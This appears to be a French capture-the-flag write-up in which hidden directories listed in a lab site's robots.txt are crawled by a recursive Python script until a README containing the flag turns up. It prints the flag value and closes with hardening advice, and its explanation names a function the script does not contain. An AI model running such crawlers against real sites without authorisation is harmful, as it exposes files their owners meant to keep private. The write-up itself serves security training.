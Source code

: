 
---

# Exploitation de Faille et Prévention de Web Scraping

## Description de la Faille

Cette faille a été découverte grâce au fichier `robots.txt` du site web. Le fichier `robots.txt` indique les répertoires ou fichiers que le propriétaire du site souhaite exclure des moteurs de recherche. En examinant ce fichier, nous avons trouvé des répertoires cachés qui contiennent potentiellement des fichiers sensibles comme des README.

## Découverte de la Faille

1. **Accéder au fichier `robots.txt`** :
   - En visitant `http://ip-addr/robots.txt`, nous avons trouvé des instructions révélant des répertoires cachés.

2. **Analyser le contenu de `robots.txt`** :
   - Le fichier `robots.txt` contenait des directives `Disallow` qui indiquaient les répertoires et fichiers que les moteurs de recherche ne doivent pas indexer.

3. **Explorer les répertoires cachés** :
   - Nous avons décidé de développer un script pour explorer automatiquement ces répertoires et trouver des fichiers README contenant des informations sensibles, comme des flags.

## Script de Web Scraping

Nous avons développé un script Python optimisé pour parcourir l'arborescence des répertoires, rechercher des fichiers README et télécharger leur contenu. Voici le script :

```python
import requests
from bs4 import BeautifulSoup
import os
import concurrent.futures

def fetch_directory(url):
    response = requests.get(url)
    soup = BeautifulSoup(response.content, 'html.parser')
    return soup.find_all('a')

def is_readme_file(link):
    return link.text.strip() == 'README'

def process_directory(current_url, max_depth, current_depth):
    if current_depth > max_depth:
        return None, None
    
    links = fetch_directory(current_url)
    directories_to_check = []

    for link in links:
        href = link.get('href')
        if href and href not in ['.', '..']:
            full_url = os.path.join(current_url, href)
            if is_readme_file(link):
                response = requests.get(full_url)
                content = response.text
                if "flag" in content:
                    return full_url, content
            elif href.endswith('/'):
                directories_to_check.append(full_url)

    with concurrent.futures.ThreadPoolExecutor() as executor:
        futures = [executor.submit(process_directory, url, max_depth, current_depth + 1) for url in directories_to_check]
        for future in concurrent.futures.as_completed(futures):
            result = future.result()
            if result[0]:  # if flag_path is not None
                return result

    return None, None

# Utilisation
base_url = "http://ip-addr/.hidden/"
flag_path, flag_content = process_directory(base_url, 10, 0)

if flag_path:
    print(f"Flag found in: {flag_path}")
    print(f"Content: {flag_content}")
else:
    print("No flag found.")
```

### Fonctionnement du Script

1. **Fonction `fetch_directory(url)`** :
   - Effectue une requête HTTP GET pour récupérer le contenu HTML d'un répertoire.
   - Utilise BeautifulSoup pour parser le contenu et trouver tous les liens (`<a>`).

2. **Fonction `is_readme_file(link)`** :
   - Vérifie si un lien correspond à un fichier README.

3. **Fonction `find_flag_in_readme(base_url, max_depth)`** :
   - Démarre l'exploration à partir de `base_url` avec une profondeur maximale de 10 (modifiable selon vos besoins).

### Exécution

- Le script explore les répertoires de manière récursive et parallèle, limitant la profondeur pour améliorer la performance.
- Il télécharge et analyse les fichiers README pour détecter la présence de flags.

## Flag

```
d5eec3ec36cf80dce44a896f961c1831a05526ec215693c8f2c39543497d4466
```

## Prévention contre le Web Scraping

Pour éviter que votre site web soit vulnérable au web scraping, suivez ces recommandations :

1. **Restreindre l'accès aux répertoires sensibles** :
   - Configurez votre serveur web pour restreindre l'accès aux répertoires et fichiers sensibles en utilisant des fichiers `.htaccess` ou des règles de configuration du serveur.

2. **Masquer les répertoires et fichiers critiques** :
   - Évitez de stocker des fichiers critiques ou sensibles dans des répertoires accessibles publiquement. Utilisez des chemins non prévisibles et des techniques de camouflage.

3. **Implémenter des contrôles d'accès robustes** :
   - Assurez-vous que seuls les utilisateurs autorisés peuvent accéder aux répertoires et fichiers sensibles en utilisant des systèmes d'authentification et d'autorisation.

4. **Utiliser des CAPTCHAs** :
   - Intégrez des CAPTCHAs dans les formulaires pour différencier les utilisateurs humains des bots et scripts automatisés.

5. **Surveiller et loguer les accès** :
   - Mettez en place des mécanismes de surveillance et de journalisation des accès aux répertoires et fichiers sensibles. Analysez régulièrement les logs pour détecter des comportements suspects.

6. **Utiliser des outils de sécurité pour analyser les vulnérabilités** :
   - Effectuez des analyses régulières de sécurité sur votre serveur et vos applications web pour détecter et corriger les vulnérabilités potentielles.

7. **Mettre en place des limites de taux (rate limiting)** :
   - Implémentez des limites de taux pour les requêtes sur votre serveur afin de prévenir les abus et les attaques par force brute.

8. **Former les développeurs et les administrateurs système** :
   - Sensibilisez et formez vos équipes aux meilleures pratiques de sécurité pour éviter les erreurs de configuration et les mauvaises pratiques de développement.

En suivant ces recommandations, vous pouvez réduire le risque de vulnérabilités exploitables par des scripts automatisés et améliorer la sécurité globale de votre infrastructure.

---

